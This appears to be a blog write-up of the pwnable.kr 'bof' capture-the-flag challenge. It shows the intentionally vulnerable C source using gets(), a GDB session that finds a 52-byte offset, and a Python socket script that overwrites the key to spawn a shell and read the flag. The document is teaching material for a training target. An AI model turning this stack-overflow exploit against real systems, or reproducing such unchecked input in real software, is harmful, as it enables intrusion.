



bof - pwnable.kr
Estimated read time: 5 minutes
Introduction
Let’s go back to Pwnable and continue our journey collecting monster cards. Today, we are getting Smokie’s card. Let’s take a look at it!
Challenge description
The challenge description is:
Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
Download : http://pwnable.kr/bin/bof Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000
I’m not sure if that is true, but it surely happens!
Approach mindset
Let’s change our approach mindset a bit for these kind of attacks:
- Code review
- Analyzing the binary
- Crafting the attack
- Solving
Step 1 - Code review
Once we download the files from Pwnable, let’s take a look at the challenge source code:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
char overflowme[32];
printf("overflow me : ");
gets(overflowme); // smash me!
if(key == 0xcafebabe){
system("/bin/sh");
}
else{
printf("Nah..\n");
}
}
int main(int argc, char* argv[]){
func(0xdeadbeef);
return 0;
}
Let’s dissect this code.
func function
This function takes an integer as argument under the name of key. After that, it initializes a buffer variable called overflowme with 32 bytes size allocation. It uses the gets() method to get user input. This method is known for having security issues regarding buffer overflow. Nowadays, this function has become obsolete because of its danger. You can understand it more here.
Right after the gets() line, we have an if statement that compares our key to 0xcafebabe. If that holds, we spawn a shell. If not, then it just prints “Nah…”.
main function
This function starts the code by calling func, passing the key argument as 0xdeadbeef. This indicates that, from the code’s flow, key will never be equal 0xcafebabe, unless we overflow it!
Step 2 - Analyzing the binary
Now that we understand how the code works, let’s use GDB to analyze the binary and discover how we can overflow the stack, making the key variable equals 0xcafebabe. Starting GDB with gdb ./bof, the first thing we should do is to add a breakpoint at func:
(gdb) b func
Breakpoint 1 at 0x632
(gdb) r
The idea here is to disassemble the func method to grab the memory address of the if statement:

As we can see, the last line of the image above has cmpl instruction, which is used to compare two things. It is comparing 0xcafebabe with the value in %ebp. Let’s add a break point exactly there:
(gdb) b *0x56555654
Breakpoint 2 at 0x56555654
(gdb) c
Continuing.
overflow me :
AAAAAAAAAAAAA
We pass a small input to check the stack right afterwards. Note that our input starts showing on the stack on the top-right corner of the image below, whereas the 0xdeadbeef address on the bottom-left corner, which is the value stored on the key variable.

Every 4 A’s in a row produces a 0x41. This means we need to count how many addresses appear between our first 0x41414141 until the very last one before 0xdeadbeef. There are 13 of them, and since at each address we have 4 bytes, we need to multiply 13 by 4, which is 52. This is the size of our overflow string in order to overwrite the key variable:

Step 3 - Crafting the attack
We need to pass a payload that not only overflows the stack, but overwrites 0xdeadbeef with 0xcafebabe. Since this is probably a little-endian system, our payload must be A*52 + \xbe\xba\xfe\ca. Let’s test it locally:

It seems that this payload did not work. After a bit of research, I realized that the gets() function within ./bof reads the provided input until a newline or EOF is encountered. As cat concludes its execution immediately after sending the payload, the pipe is closed, leading gets() to encounter an EOF. This premature EOF potentially causes ./bof to proceed, triggering the stack smashing protection mechanism before the payload could effectively manipulate the program’s flow.
To fix this, we need to ensure the pipe isn’t closed prematurely. We can achieve such feat by adding another cat command at the end:

Ok. since this works locally, let’s write a python script that will use sockets instead of this weird piping problem.
import socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
sock.connect(("pwnable.kr", 9000))
sock.send(b'A' * 52 + b'\xbe\xba\xfe\xca\n')
sock.send(b'ls\n')
print(sock.recv(128).decode())
This will make the system run ls and list its files:

Great! It works!
Step 4 - Solving!
Now that we have an exploit and we know where the flag is, we just need to change the line sock.send(b'ls\n') in our Python script to sock.send(b'cat flag\n') and run again:

And there we have it!
Conclusion
In this CTF, we were able to exploit a buffer overflow vulnerability by examining the source code, then the binary. Then, we found where in the stack the key variable was located and calculated the offset to overwrite it. A simple Python script did the job of retrieving the flag for us. Enjoy your newly dropped Smokie card. It was well deserved!
I hope you liked this write-up and learned something new. As always, don’t forget to do your research!